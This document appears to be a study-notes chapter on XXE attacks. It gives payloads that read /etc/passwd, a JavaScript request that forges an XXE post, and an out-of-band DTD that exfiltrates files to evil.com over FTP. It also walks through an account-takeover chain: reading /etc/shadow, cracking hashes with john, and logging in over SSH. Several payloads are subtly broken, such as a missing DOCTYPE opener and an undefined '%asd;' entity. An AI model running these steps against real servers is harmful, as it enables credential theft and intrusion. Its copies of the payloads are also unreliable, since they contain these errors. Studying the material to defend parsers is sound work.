


# Chapter 12. XML External Entity (XXE)

XML External Entity (XXE) attacks exploit improperly configured XML parsers. They occur when an API endpoint accepts XML or XML-like payloads (SVG, HTML/DOM, PDF/XFDF, RTF) and evaluates a special directive called an *external entity*. 

## XXE Fundamentals
At the core of every XXE attack is a weakness in how the XML specification handles **entities**. 

- **Entities (How they work)**: An entity is essentially a storage variable or shortcut—a set of characters used to reference another piece of data within an XML file. When the XML parser encounters an entity, it replaces the entity reference with its corresponding value *before* evaluating the rest of the document.
- **Predefined Entities**: These are standard, safe entities that reference specific ASCII characters (e.g., using `&amp;` to render an ampersand `&`, or `&lt;` for `<`).
- **Custom Entities**: Programmers can define their own entities to represent any string of data they want. This data can even reference information located *outside* of the current XML document.
- **External Entities (The Vulnerability)**: This is the most dangerous form of a custom entity and the root of XXE attacks. The XML specification includes a special directive that allows an entity to import data from external files or URLs. By defining an external entity within an XML Document Type Definition (DTD), an attacker can force the server's XML parser to fetch and pull external system files into the XML payload *prior to parsing*.

**Example Payload**:
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd"> ]>
```
This references the Linux `/etc/passwd` file, enabling sensitive information disclosure, application modification, or Remote Code Execution (RCE).

## Attack Types

### Direct XXE
**How it works**: An XML object containing an external entity flag is sent directly to the server. The parser evaluates it, and the response reflects the external entity's contents (e.g., local files).

**When to use**: When an application directly accepts and parses user-supplied XML (or XML-like) inputs and returns the parsed result.

**Example of forging a request to exploit Direct XXE**:
```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', utilAPI.url + '/screenshot');
xhr.setRequestHeader('Content-Type', 'application/xml');

const rawXMLString = `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><xxe>&xxe;</xxe>`;
xhr.send(rawXMLString);
```



### Indirect XXE
**How it works**: A user request provides parameters that the server subsequently integrates into an XML object behind the scenes (e.g., communicating with a legacy SOAP API or CRM). The server then parses this generated XML, triggering the external entity.

**When to use**: When the target endpoint does not directly accept XML payloads, but underlying system integrations (like REST to SOAP conversions) construct and parse XML using the provided input. Discoverable by analyzing expected data types and API integrations.



## Out-of-Band Data Exfiltration
When an XXE vulnerability executes but does not return data in the HTTP response, data must be exfiltrated during parsing via protocols like FTP or Gopher. In certain scenarios, other protocols like HTTP or Lightweight Directory Access Protocol (LDAP) can also be used.

**How it works**: 
1. The initial XXE payload references an external DTD hosted on the attacker's server:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE a [
   <!ENTITY % dtd SYSTEM "https://evil.com/data.dtd">
   %asd;
   %c;
   ]>
   <a>&rrr;</a>
   ```
2. The attacker's server hosts `data.dtd` which reads the target file and exfiltrates it:
   ```xml
   <!ENTITY % d SYSTEM "file:///etc/passwd">
   <!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://evil.com/%d;'>">
   ```
3. The target server fetches `data.dtd`, reads `/etc/passwd`, and streams it line-by-line to the attacker's FTP server.

**When to use**: Use this technique when data exfiltration is not baked into the application logic, meaning the XXE executes correctly on the server but does not return data to the client.

## Linux Account Takeover (ATO) Workflow
A powerful XXE attack pattern targeting Linux authentication files to obtain credentials and gain system access.

### 1. Obtaining System User Data (`/etc/passwd`)
- **Target**: `/etc/passwd` (present on Linux, BSD, Unix, WSL).
- **Format**: `Username:Password Storage:User ID:Group ID:Comment:Home Dir:Shell`
  - Example: `dev:x:1010:2020:app_developer:/dev_user:/bin/bash`
- **Key Data**: The `x` in the password field indicates the hash is stored in `/etc/shadow`. It also leaks home directories and groups.

### 2. Obtaining Password Hashes (`/etc/shadow`)
- **Target**: `/etc/shadow`
- **Format**: Contains 8 colon-separated fields. The fields include: Username, Hashed password (`$id:$salt:$hash`), Last password change date, Minimum days between changes, Maximum days between changes, Days before expiration, Days disabled after expiration, and Expiration date.
- **Hash IDs**:
  - `$1$`: MD5
  - `$2a$` / `$2y$`: Blowfish
  - `$5$`: SHA-256
  - `$6$`: SHA-512
  - `$y$`: yescrypt

### 3. Cracking Password Hashes
- **Process**: Use tools like John the Ripper or Hashcat.
- **Workflow**:
  1. Save local copies of `passwd.txt` and `shadow.txt`.
  2. Format them: `unshadow passwd.txt shadow.txt > passwords.txt`
  3. Crack hashes: `john passwords.txt`
  4. View results: `john --show passwords.txt`
- **Hardware Acceleration**: John the Ripper can be configured to use the CPU or GPU, but not both simultaneously. Hashcat, on the other hand, can utilize both the CPU and GPU at the same time.

### 4. SSH Remote Login
- **Execution**: Authenticate with the target server via SSH using the cracked credentials.
  ```bash
  ssh <username>@<website.com>
  ```
- **Result**: Full control over the remote user on the target server.
- **Windows Users**: Third-party tools like PuTTY can emulate the Linux SSH workflow.

## Summary
XXE attacks leverage improperly configured XML parsers to read sensitive files or achieve RCE. They rely on standard XML functionality (external entities). Fixes often involve a single configuration change to explicitly disable external entity resolution within the XML parser.
